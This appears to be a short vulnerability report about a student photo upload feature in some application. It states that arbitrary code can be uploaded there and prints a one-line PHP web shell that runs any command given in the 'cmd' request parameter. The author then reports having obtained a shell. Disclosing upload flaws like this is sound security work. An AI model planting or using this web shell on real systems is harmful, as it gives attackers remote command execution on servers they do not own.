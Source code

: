 ![photo](./assets/upload-student-photo.png)

I think it might cause by uploading arbitary code for reverse shell

`<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>`

Then I got the shell
